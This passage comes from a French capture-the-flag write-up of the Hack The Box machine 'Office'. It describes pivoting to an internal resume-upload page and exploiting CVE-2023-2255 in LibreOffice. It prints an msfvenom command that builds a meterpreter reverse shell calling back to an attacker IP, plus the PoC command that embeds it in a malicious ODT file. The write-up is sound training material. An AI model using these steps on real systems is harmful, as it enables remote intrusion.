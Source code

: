 En exécutant `netstat` dans notre shell meterpreter, nous remarquons que `http` tourne sur le port `8083`, que nous n'avons pas découvert avec nmap. 

![netstat command](/images/HTB-Office/netstat-cmd.png)

Pour y accéder, nous utiliserons [ligolo-ng](https://github.com/nicocha30/ligolo-ng).

En allant sur `http://240.0.0.1:8083/`, nous trouvons un site web pour Holography Industries.

![Internal business website](/images/HTB-Office/business-website.png)

Cliquer sur `Submit Application` nous amène à `/resume.php`, une page où nous pouvons télécharger un CV pour une demande d'emploi.

![resume.php page for file submission](/images/HTB-Office/resume-php.png)

La tentative de téléchargement d'un fichier pdf échoue, et nous apprenons que cette application n'accepte que les fichiers `Doc`, `Docx`, `Docm`, et `Odt`. 

![file extensions acepted](/images/HTB-Office/files-extensions.png)

Les fichiers de cette application se trouvent dans `C:\xampp\htdocs\internal`.

![Internal files](/images/HTB-Office/internal-files.png)


### Shell en tant que ppotts

Le fichier `resume.php` appartient à l'utilisateur `PPotts`.

![resume.php file permissions](/images/HTB-Office/resume-php-permissions.png)

Nous constatons également que la version 5.2 de Libre Office est installée sur la cible. 

![Libre Office version](/images/HTB-Office/Libre-Office-version.png)

Cette version est obsolète et vulnérable au [CVE-2023-2255](https://www.libreoffice.org/about-us/security/advisories/cve-2023-2255/) avec un PoC disponible [ici](https://github.com/elweth-sec/CVE-2023-2255).

Nous commençons par créer un fichier exe malveillant.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.4 LPORT=5555 -f exe -o shell.exe
```

Nous créons ensuite un fichier odt malveillant.

```
python3 CVE-2023-2255.py --cmd 'C:\Users\Public\shell.exe' --output 'exploit.odt'
```

![Malicious odt file](/images/HTB-Office/malicious-odt.png)

Quelques minutes après avoir placé `shell.exe` dans le répertoire de notre choix et téléchargé notre fichier `exploit.odt` via l'application interne, nous obtenons un nouveau shell meterpreter sous le nom de `ppotts`.
